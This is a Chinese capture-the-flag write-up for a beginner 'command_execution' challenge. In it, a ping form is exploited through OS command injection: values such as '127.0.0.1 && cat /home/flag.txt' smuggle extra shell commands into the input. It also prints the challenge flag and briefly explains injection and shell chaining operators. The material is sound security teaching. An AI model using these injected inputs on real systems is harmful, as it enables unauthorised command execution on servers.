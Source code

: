 ### WriteUp

#### 1.题目名称

command_execution

#### 2.难度系数

简单

#### 3.题目来源

Cyberpeace-n3k0

#### 4.题目描述

小宁写了个ping功能,但没有写waf,X老师告诉她这是非常危险的，你知道为什么吗。

![1564998506636](C:\Users\Administrator\Desktop\11-20190805-command_execution\WriteUp\images\1564998506636.png)

http://111.198.29.45:36429/

#### 5.解题步骤

##### 	5.1 打开网址

![1564998555243](C:\Users\Administrator\Desktop\11-20190805-command_execution\WriteUp\images\1564998555243.png)

##### 		5.2 尝试ping 127.0.0.1

![1564998866052](C:\Users\Administrator\Desktop\11-20190805-command_execution\WriteUp\images\1564998866052.png)

##### 5.3ping得通，尝试用&&符号执行多个命令

首先使用ls命令，多出来一个index.php,说明此方法可以

![1564999175596](C:\Users\Administrator\Desktop\11-20190805-command_execution\WriteUp\images\1564999175596.png)

使用find命令查找带有flag的文件，命令：127.0.0.1 && find / -name 'flag.*'

![1564999345730](C:\Users\Administrator\Desktop\11-20190805-command_execution\WriteUp\images\1564999345730.png)

使用cat命令查看flag.txt。命令：127.0.0.1 && cat /home/flag.txt

![1564999431346](C:\Users\Administrator\Desktop\11-20190805-command_execution\WriteUp\images\1564999431346.png)

#### 6.flag值

cyberpeace{fb7c2bcebd0ba5048d4e4f85394fb079}

#### 7.延伸

命令执行漏洞：当应用需要调用一些外部程序去处理内容的情况下，就会用到一些执行系统命令的函数。如PHP中的system，exec，shell_exec等，当用户可以控制命令执行函数中的参数时，将可注入恶意系统命令到正常命令中，造成命令执行攻击。

windows或linux下

```
command1 && command2 先执行command1，如果为真，再执行command2 
command1 | command2 只执行command2 
command1 & command2 先执行command2后执行command1
command1 || command2 先执行command1，如果为假，再执行command2
```

linux常用命令

```
pwd 显示工作路径
cat 用于连接文件并打印到标准输出设备上
ls 查看目录中的文件
ls -l 显示文件和目录的详细信息
ls -a 显示隐藏文件
mkdir 创建目录
rm -f file1 删除一个叫做“file1”的文件
rm -rf dir1 dir2 同时删除两个目录及它们的内容
cp file1 file2 复制一个文件
find 在指定目录下查找文件
grep 查找文件里符合条件的字符串
mount 挂载linux系统外的文件
umount 用于卸载文件系统
chmod 控制文件如何被他人所调用
chown 将指定文件的拥护者改为指定的用户或组
```

```
find / --name flag.txt  在根目录下查找名称为flag.txt的文件
find / --name flag*     在根目录下查找文件名称中含有flag的文件。
```